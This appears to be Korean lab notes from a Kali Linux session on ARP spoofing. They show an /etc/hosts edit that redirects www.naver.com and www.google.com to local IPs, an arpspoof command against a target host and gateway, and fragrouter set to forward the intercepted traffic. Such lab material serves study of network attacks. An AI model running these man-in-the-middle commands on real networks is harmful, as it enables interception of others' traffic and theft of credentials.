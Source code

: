 ```
이는 일반적으로 ARP 스푸핑(위조) 또는 ARP 포이즈닝 공격의 징후입니다.
```
변화

```bash
[samadal@kali ~]$ sudo cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

[samadal@kali ~]$

[samadal@kali ~]$ sudo cp -p /etc/hosts /etc/host.samadal
```

- /etc/hosts 파일 수정

```bash
[samadal@kali ~]$ sudo vi /etc/hosts

[samadal@kali ~]$

[samadal@kali ~]$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.0.27    www.naver.com   ->내 hostOS IP 입력 
192.168.10.134  www.google.com
```
```
sudo arpspoof -i eth0 -t 192.168.10.132 192.168.10.2
```

```
[samadal@kali ~]$ sudo vi /etc/resolv.conf
[sudo] password for samadal:

[samadal@kali ~]$

[samadal@kali ~]$ sudo apt -y install fragrouter
```
다시 resolve.conf 수정 후
```
[samadal@kali ~]$ sudo fragrouter -B1
fragrouter: base-1: normal IP forwarding
```
<br>
